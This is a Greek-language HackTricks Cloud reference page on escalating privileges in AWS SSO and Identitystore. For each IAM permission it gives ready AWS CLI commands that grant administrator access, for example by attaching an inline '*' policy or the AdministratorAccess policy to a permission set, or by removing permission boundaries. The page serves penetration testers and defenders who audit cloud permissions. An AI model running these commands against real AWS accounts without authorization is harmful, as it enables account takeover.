 # AWS - Προνόμια Ανέλιξης Στοιχείων SSO & Identitystore

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Κέντρο Ταυτότητας AWS / AWS SSO

Για περισσότερες πληροφορίες σχετικά με το Κέντρο Ταυτότητας AWS / AWS SSO, ελέγξτε:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Σημειώστε ότι από προεπιλογή, μόνο οι **χρήστες** με δικαιώματα **από** τον **Λογαριασμό Διαχείρισης** θα μπορούν να έχουν πρόσβαση και να **ελέγχουν το Κέντρο Ταυτότητας IAM**.\
Οι χρήστες από άλλους λογαριασμούς μπορούν να το επιτρέψουν μόνο εάν ο λογαριασμός είναι **Αναθέτημένος Διαχειριστής**.\
[Ελέγξτε την τεκμηρίωση για περισσότερες πληροφορίες.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Επαναφορά Κωδικού Πρόσβασης~~

Ένας εύκολος τρόπος να αναβαθμίσετε τα προνόμια σε περιπτώσεις όπως αυτή θα ήταν να έχετε άδεια που επιτρέπει την επαναφορά των κωδικών πρόσβασης των χρηστών. Δυστυχώς, είναι δυνατό μόνο να στείλετε ένα email στον χρήστη για να επαναφέρει τον κωδικό του, οπότε θα χρειαστεί να έχετε πρόσβαση στο email του χρήστη.

### `identitystore:CreateGroupMembership`

Με αυτήν την άδεια είναι δυνατό να ορίσετε έναν χρήστη μέσα σε μια ομάδα, έτσι ώστε να κληρονομεί όλα τα προνόμια που έχει η ομάδα.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να χορηγήσει επιπλέον δικαιώματα σε ένα Permission Set που έχει χορηγηθεί σε έναν χρήστη υπό τον έλεγχό του.
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να χορηγήσει επιπλέον δικαιώματα σε ένα Permission Set που έχει χορηγηθεί σε έναν χρήστη υπό τον έλεγχό του. 

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να χορηγήσει επιπλέον δικαιώματα σε ένα Permission Set που έχει χορηγηθεί σε έναν χρήστη υπό τον έλεγχό του.

{% hint style="warning" %}
Για να καταχραστείτε αυτές τις άδειες σε αυτήν την περίπτωση, πρέπει να γνωρίζετε το **όνομα μιας πολιτικής που διαχειρίζεται ο πελάτης και βρίσκεται σε ΟΛΟΥΣ τους λογαριασμούς** που θα επηρεαστούν.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:CreateAccountAssignment`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να δώσει ένα Permission Set σε έναν χρήστη υπό τον έλεγχό του σε έναν λογαριασμό.
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
### `sso:GetRoleCredentials`

Επιστρέφει τα προσωρινά διαπιστευτήρια STS για ένα συγκεκριμένο όνομα ρόλου που έχει ανατεθεί στον χρήστη.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Ωστόσο, χρειάζεστε ένα access token το οποίο δεν είμαι σίγουρος πώς να το αποκτήσετε (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να αφαιρέσει τη συσχέτιση μεταξύ ενός διαχειριζόμενου πολιτικής της AWS από το συγκεκριμένο σύνολο δικαιωμάτων. Είναι δυνατόν να χορηγηθούν περισσότερα προνόμια μέσω **αποσύνδεσης μιας διαχειριζόμενης πολιτικής (απόρριψη πολιτικής)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να αφαιρέσει τη συσχέτιση μεταξύ μιας πολιτικής που διαχειρίζεται ο πελάτης από το συγκεκριμένο σύνολο δικαιωμάτων. Είναι δυνατόν να χορηγηθούν περισσότερα προνόμια μέσω **αποσύνδεσης μιας διαχειριζόμενης πολιτικής (απόρριψη πολιτικής)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
### `sso:DeleteInlinePolicyFromPermissionSet`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να αφαιρέσει τις άδειες από μια ενσωματωμένη πολιτική από το σύνολο άδειών. Είναι δυνατόν να χορηγηθούν **περισσότερα προνόμια μέσω της αποσύνδεσης μιας ενσωματωμένης πολιτικής (απόρριψη πολιτικής)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
### `sso:DeletePermissionBoundaryFromPermissionSet`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να αφαιρέσει το Όριο Άδειας από το σύνολο άδειας. Είναι δυνατόν να χορηγηθούν **περισσότερα προνόμια αφαιρώντας τους περιορισμούς από το Σύνολο Άδειας** που δίνονται από το Όριο Άδειας.

{% endcode %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
